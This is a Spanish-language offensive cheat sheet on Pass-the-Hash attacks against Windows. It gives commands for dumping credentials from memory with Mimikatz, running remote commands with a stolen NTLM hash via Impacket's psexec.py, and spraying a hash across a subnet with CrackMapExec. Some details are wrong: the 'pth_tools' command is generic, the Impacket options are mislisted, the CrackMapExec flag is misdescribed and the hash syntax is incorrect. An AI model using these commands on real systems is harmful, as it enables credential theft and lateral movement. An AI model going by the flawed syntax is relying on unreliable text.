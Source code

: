 ### **Ataques de Pass-the-Hash/PtH Tools.md**

# PtH Tools

## Descripción

`PtH Tools` se refiere a un conjunto de herramientas diseñadas para facilitar ataques Pass-the-Hash (PtH). Estos ataques permiten a un atacante autenticar en sistemas Windows utilizando hashes de contraseñas en lugar de contraseñas en texto plano, evitando así la necesidad de conocer la contraseña real.

## Uso

```bash
pth_tools [herramienta] [opciones]
```

### Herramientas principales

- **WCE (Windows Credentials Editor):** Permite la manipulación de credenciales en memoria.
- **Mimikatz:** Extrae y utiliza hashes NTLM para autenticación.
- **Impacket:** Proporciona scripts para ejecutar comandos remotamente utilizando PtH.
- **CrackMapExec:** Automatiza la explotación de PtH en redes.

## Opciones principales

Dependiendo de la herramienta específica, las opciones pueden variar. A continuación se presentan ejemplos con `Impacket` y `CrackMapExec`.

### Impacket

- `-u`, `--username`: Nombre de usuario.
- `-p`, `--password`: Contraseña o hash NTLM.
- `-d`, `--domain`: Dominio objetivo.
- `-H`, `--hash`: Hash NTLM para autenticación.
- `-c`, `--command`: Comando a ejecutar remotamente.

### CrackMapExec

- `--hashes`: Proporciona hashes NTLM para autenticación.
- `-u`, `--username`: Nombre de usuario.
- `-p`, `--password`: Contraseña.
- `-x`, `--exec-method`: Método de ejecución remota.
- `-M`, `--module`: Especifica un módulo para ejecutar.

## Ejemplos

- Usar Mimikatz para extraer hashes y realizar PtH:
  
  ```bash
  mimikatz.exe
  sekurlsa::logonpasswords
  sekurlsa::pth /user:usuario /domain:dominio /ntlm:HASH
  ```

- Ejecutar un comando remoto usando Impacket:
  
  ```bash
  psexec.py usuario:HASH@192.168.1.10 "ipconfig /all"
  ```

- Automatizar PtH con CrackMapExec:
  
  ```bash
  cme smb 192.168.1.0/24 -u usuario -H HASH --exec-method smbexec -x "whoami"
  ```

